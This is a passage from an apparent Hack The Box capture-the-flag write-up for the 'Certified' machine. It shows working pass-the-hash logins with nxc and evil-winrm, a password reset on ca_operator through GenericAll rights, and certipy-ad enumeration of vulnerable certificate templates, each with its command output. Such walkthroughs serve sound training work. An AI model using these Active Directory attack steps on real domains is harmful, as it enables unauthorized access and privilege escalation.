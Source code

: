Verify NTLM hash:
```bash
nxc smb 10.10.11.41 -u management_svc -H "a091c1832bcdd4677c28b5a6a1295584"                                   
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 
```

User.txt: `1fae73ea6e2d7e7cce0272302ea6d99f`
```bash
evil-winrm -i 10.10.11.41 -u management_svc -H "a091c1832bcdd4677c28b5a6a1295584"                
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> whoami
certified\management_svc

*Evil-WinRM* PS C:\Users\management_svc\Desktop> type user.txt
1fae73ea6e2d7e7cce0272302ea6d99f
```


### Lateral movement (management_svc --> ca_operator)
The management_svc user has GenericAll permissions over the ca_operator user:
![Pasted image 20241124122431.png](/images/Pasted image 20241124122431.png){: .normal }


Modify the password by passing the hash:
```bash
pth-net rpc password "ca_operator" 'Password123!' -U "certified.htb"/"management_svc"%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584" -S 10.10.11.41       
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...

nxc smb 10.10.11.41 -u ca_operator -p 'Password123!'                     
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:Password123!
```


### Privilege Escalation
We can assume that the ca_operator user has permissions over certain certificate authorities (hence the name of the HTB machine). Certs can be requested by using certipy-ad. In this case we are looking for vulnerable certs:
```bash
certipy-ad find -u 'ca_operator' -p 'Password123!!' -dc-ip 10.10.11.41 -vulnerable -enabled
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
```